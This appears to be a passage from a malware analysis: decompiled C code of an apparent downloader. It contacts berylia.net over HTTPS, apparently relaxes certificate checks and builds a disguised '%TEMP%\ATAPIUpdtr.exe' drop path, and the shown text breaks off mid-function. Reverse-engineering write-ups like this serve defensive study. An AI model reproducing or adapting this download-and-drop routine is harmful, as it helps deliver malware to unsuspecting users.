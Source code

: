 ```cpp
  InternetConnectW *InternetConnectW_addr;
  HINTERNET local_14;
  InternetOpenW *InternetOpenW_addr;
  
  InternetOpenW_addr = (InternetOpenW *)GetProcAddress(DAT_00416020,"InternetOpenW");
  local_14 = (*InternetOpenW_addr)(L"WINDOWS",0,(LPCWSTR)0x0,(LPCWSTR)0x0,0);
  if (local_14 == (HINTERNET)0x0) {
    uVar3 = 0xe;
  }
  else {
    hModule = GetModuleHandleW(L"wininet.dll");
    InternetConnectW_addr = (InternetConnectW *)GetProcAddress(hModule,"InternetConnectW");
    local_1c = (*InternetConnectW_addr)
                         (local_14,L"berylia.net",0x1bb,(LPCWSTR)0x0,(LPCWSTR)0x0,3,0,1);
    if (local_1c == (HINTERNET)0x0) {
      uVar3 = 0xe;
    }
    else {
      hModule = GetModuleHandleW(L"wininet.dll");
      HttpOpenRequestW_addr = (HttpOpenRequestW *)GetProcAddress(hModule,"HttpOpenRequestW");
      local_24 = (*HttpOpenRequestW_addr)
                           (local_1c,L"GET",L"/index/",(LPCWSTR)0x0,(LPCWSTR)0x0,(LPCWSTR *)0x0,
                            0x800000,1);
      if (local_24 == (HINTERNET)0x0) {
        uVar3 = 0xe;
      }
      else {
        local_58 = 4;
        hModule = GetModuleHandleW(L"wininet.dll");
        InternetQueryOptionW_addr =
             (InternetQueryOptionW *)GetProcAddress(hModule,"InternetQueryOptionW");
        WVar4 = (*InternetQueryOptionW_addr)(local_24,0x1f,&local_54,&local_58);
        if (WVar4 != 0) {
          hModule = GetModuleHandleW(L"wininet.dll");
          InternetSetOptionW_addr =
               (InternetSetOptionW *)GetProcAddress(hModule,"InternetSetOptionW");
          local_54 = local_54 | 0x1180;
          (*InternetSetOptionW_addr)(local_24,0x1f,&local_54,4);
        }
        hModule = GetModuleHandleW(L"wininet.dll");
        HttpSendRequestA_addr = (HttpSendRequestA *)GetProcAddress(hModule,"HttpSendRequestA");
        local_34 = (*HttpSendRequestA_addr)(local_24,(LPCSTR)0x0,0,(LPVOID)0x0,0);
        local_38 = malloc(16000);
        memset(local_38,0,16000);
        memset(DAT_00416024,0,0x1000);
        temp_path = getenv("TEMP");
        temp_path_len = strlen(temp_path);
        DAT_00416028 = (LPCSTR)malloc(temp_path_len + 0x1000);
        strcpy(DAT_00416028,temp_path);
        uVar6 = 0xffffffff;
        pcVar7 = DAT_00416028;
        do {
          if (uVar6 == 0) break;
          uVar6 = uVar6 - 1;
          cVar1 = *pcVar7;
          pcVar7 = pcVar7 + 1;
        } while (cVar1 != '\0');
        puVar5 = (undefined4 *)(DAT_00416028 + (~uVar6 - 1));
        *puVar5 = 0x4154415c;
        puVar5[1] = 0x70554950;
        puVar5[2] = 0x2e727464;
        puVar5[3] = 0x657865;
        MultiByteToWideChar(0,0,DAT_00416028,-1,DAT_00416024,0x1000);
```